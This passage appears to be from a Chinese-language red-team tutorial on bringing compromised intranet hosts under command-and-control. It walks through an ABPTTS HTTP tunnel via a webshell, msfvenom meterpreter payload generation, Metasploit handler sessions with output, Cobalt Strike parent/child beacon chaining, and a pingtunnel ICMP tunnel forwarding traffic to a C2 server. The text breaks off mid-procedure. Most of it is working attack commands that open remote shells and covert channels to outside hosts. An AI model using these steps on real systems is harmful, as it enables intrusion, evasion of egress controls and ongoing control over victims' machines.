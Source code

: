 # abptts客户端监听127.0.0.1:7777，通过http://192.168.168.10/abptts.aspx这个http隧道，将tcp连接127.0.0.1:7777转发到web服务器网络下的127.0.0.1:8888

2.生成bind类型的payload，通过webshell上传执行
msfvenom -p windows/meterpreter/bind_tcp rhost=127.0.0.1 lport=8888 -f exe -o meterpreter.exe

3.启动msf监听，等待meterpreter执行上线
#这里的rhost和lport是abptts客户端监听的IP和端口，msf所在主机必须能访问到这个IP和端口，这里msf和abptts在同一个主机上
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/handler) > set lport 7777
lport => 7777
msf5 exploit(multi/handler) > run
[*] Started bind TCP handler against 127.0.0.1:7777
[*] Sending stage (180291 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 127.0.0.1:7777) at 2020-04-27 04:50:25 -0400
meterpreter > getuid

4.上线cobaltstrike
由于cobaltstrike的bind类型的监听器仅有beacon TCP和beacon SMB，并且都必须连接到父beacon，无法直接连接cobalstrike服务端，所以我们需要一个父beacon来中转连接。
1).通过正向的http隧道构建tcp连接
2).创建反向的listener
payload Beacon HTTPS
3).生成父beacon
windows executable (stageless)
listener https
4).上传父beacon到abptts客户端执行上线
5).创建payload为tcp beacon的listener
port 8888 Bind to localhost only
6).生成stageless的子beacon
listener tcp_8888
7).将生成的子beacon通过webshell上传执行
netstat -ano | findstr 127.0.0.1:8888
8).在父beacon中连接abptts的监听ip和端口

上线仅icmp协议出网的内网主机
构建反向的TCP over ICMP隧道 SOCKS over ICMP隧道
pingtunnel，它能通过icmp隧道转发tcp、udp、socks5连接
icmp隧道转发tcp上线metasploit
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
./pingtunnel -type server -noprint 1 -nolog 1
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1
# 该命令的意思是icmp客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
3.生成反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线
msfvenom -p windows/meterpreter/reverse_https lhost=127.0.0.1 lport=9999 -f exe -o meterpreter.exe
# 这里的lhost和lport为icmp客户端监听ip和端口
4.启动msf监听，等待meterpreter执行上线
# 这里的lhost和lport为icmp客户端转发到的ip和端口
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 0.0.0.0
